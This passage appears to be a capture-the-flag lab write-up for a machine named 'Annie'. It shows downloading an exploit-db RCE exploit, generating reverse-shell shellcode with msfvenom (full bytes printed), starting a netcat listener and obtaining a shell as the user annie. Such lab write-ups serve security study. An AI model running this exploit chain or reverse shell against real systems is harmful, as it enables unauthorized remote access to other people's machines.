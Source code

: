 Let's download the RCE exploit from https://www.exploit-db.com/exploits/49613. Now, we have to edit the target IP adress :  
![](https://i.imgur.com/9Jsxv8y.jpg)  

Then, we need to generate a shellcode using msfvenom :  
```
attacker@AttackBox:~/Annie$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.14.32.60 LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 4 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=17, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 119 (iteration=0)
x64/xor chosen with final size 119
Payload size: 119 bytes
Final size of python file: 680 bytes
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x14\xe5\x38"
shellcode += b"\xa0\x42\x13\x0b\x77\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x7e\xcc\x60\x39\x28"
shellcode += b"\x11\x54\x1d\x15\xbb\x37\xa5\x0a\x84\x43\xce"
shellcode += b"\x16\xe5\x29\xfc\x48\x1d\x2b\x4b\x45\xad\xb1"
shellcode += b"\x46\x28\x03\x51\x1d\x3e\xbd\x37\xa5\x28\x10"
shellcode += b"\x55\x3f\xeb\x2b\x52\x81\x1a\x1c\x0e\x02\xe2"
shellcode += b"\x8f\x03\xf8\xdb\x5b\xb0\x58\x76\x8c\x56\x8f"
shellcode += b"\x31\x7b\x0b\x24\x5c\x6c\xdf\xf2\x15\x5b\x82"
shellcode += b"\x91\x1b\xe0\x38\xa0\x42\x13\x0b\x77"
```

Next, we have to replace the default shellcode of the exploit with our new generated shellcode :  
![](https://i.imgur.com/WrLMjCy.jpg)  

Now, we can start a netcat listener on our machine to get a reverse shell :  
```
attacker@AttackBox:~/Annie$ nc -lnvp 4444
listening on [any] 4444 ...
```

Then, we can run the exploit :  
```
attacker@AttackBox:~/Annie$ python exploit.py 
sending payload ...
reverse shell should connect within 5 seconds
```

Finally, let's take a look at our netcat listener :  
```
attacker@AttackBox:~/Annie$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.14.32.60] from (UNKNOWN) [10.10.157.42] 60154
whoami
annie
```
